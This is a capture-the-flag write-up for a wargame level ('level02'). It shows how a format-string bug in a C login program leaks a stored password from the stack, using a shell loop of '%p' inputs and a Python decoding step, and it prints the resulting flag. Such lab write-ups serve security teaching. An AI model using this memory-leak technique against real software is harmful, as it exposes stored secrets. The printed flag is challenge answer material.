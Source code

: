 
# Walkthrough

**Main** : 
challenge involves exploiting a vulnerable C program to print the contents of a flag stored on the stack. Here's a step-by-step explanation of the program:
1.  The program starts by opening and reading the contents of the "/home/users/level03/.pass" file into a buffer called `pass_buffer`.
    
2.  It then displays a username prompt using `fgets()` and stores the input in the `username_buffer`.
    
3.  Similarly, it displays a password prompt using `fgets()` and stores the input in the `pwd_buffer`.
    
4.  After that, it compares the contents of `pass_buffer` with `pwd_buffer` using `strncmp()`. If they don't match, it prints an error message and exits. Otherwise, it prints a welcome message and executes `/bin/sh`.

-   Initially, the goal is to find the distance between the `username_buffer`and the stored password `pass_buffer`  on the stack.
- The lengths of `username_buffer` and `pass_buffer` are different, and it's necessary to locate the correct start point.

**Process to exploit :**
>   1. Leak the contents of the stack. 
>   2. Print  consecutive 8-byte chunks of memory


## Step 1

###  Leak the contents of the stack

-   To leak the contents of the stack, we use the format string vulnerability during the username prompt.
-   We provide a format string that includes `%p` format specifiers with parameter specifiers `x$`.
	
	```
	level02@OverRide:~$ for ((i = 21; i < 30; i++)); do echo "$i - %$i\$p" | ./level02; done | grep does
	21 - (nil) does not have access!
	22 - 0x756e505234376848 does not have access!
	23 - 0x45414a3561733951 does not have access!
	24 - 0x377a7143574e6758 does not have access!
	25 - 0x354a35686e475873 does not have access!
	26 - 0x48336750664b394d does not have access!
	level02@OverRide:~$ 

	```
	In summary, this line of code is part of a script that is attempting to exploit the `level02` program using format string vulnerabilities. It iterates through values of `i` from 21 to 30, each time sending a format string to `level02` that tries to print the value at the `i`-th position on the stack. 
The script then checks if the output of `level02` contains the word "does," likely as an indicator that a successful format string attack has occurred.


## Step 2

### Print  consecutive 8-byte chunks of memory 
```
python -c "print ''.join([v.decode('hex')[::-1] for v in ['756e505234376848', '45414a3561733951', '377a7143574e6758', '354a35686e475873', '48336750664b394d']])"
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
The output of this command is the concatenated and reversed ASCII representation of the given hexadecimal strings, which appears to be a string: `Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H`.

Flag:
```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```
